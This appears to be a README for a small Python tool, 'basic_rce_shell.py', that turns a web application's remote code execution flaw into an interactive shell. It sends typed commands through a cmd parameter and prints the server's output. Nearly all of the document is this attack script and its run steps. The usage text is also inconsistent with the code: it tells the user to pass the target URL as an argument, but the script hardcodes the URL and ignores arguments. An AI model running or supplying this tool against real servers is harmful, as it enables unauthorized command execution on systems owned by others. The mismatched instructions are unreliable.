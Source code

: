 # Basic RCE Interactive Shell

This script provides an interactive shell for identifying and exploiting web applications vulnerable to Remote Code Execution (RCE). It allows you to send commands to a target endpoint that processes them, displaying the output.

Create a file named `basic_rce_shell.py` a and add the following content:

```python
#!/usr/bin/python3

import requests
import sys
from colorama import Fore
import pyfiglet

font = pyfiglet.figlet_format('Basic Exploit')
print(Fore.CYAN+font)

target_url = "https://example.com/execute.php?cmd="

# class automates cookie management
session =requests.session()

print("[+] Interactive Exploit Shell")
while True:
    cmd = input("[~] Shell > ")
    if cmd.lower() in ["exit", "quit"]:
        break
        
    try:
        response = session.get(target_url + cmd)
        if response.status_code == 200:
            print(response.text)
        else:
            print(f"[-] Exploit failed with status code: {response.status_code}")
    except:
        print("[!] Issue with Target URL or request")
        print("[!] Usage: ./basic-exploit.py http://target-url/execute.php?cmd=")
        print("[!] CHECK YOUR URL!")
```

---

### How to Run
Execute the script from your terminal, providing the target URL with its command parameter as an argument:
```bash
$ python3 basic_rce_shell.py 
```

Alternatively, you can make the script executable and run it directly:
```bash
$ chmod +x basic_rce_shell.py
$ ./basic_rce_shell.py 
```

---
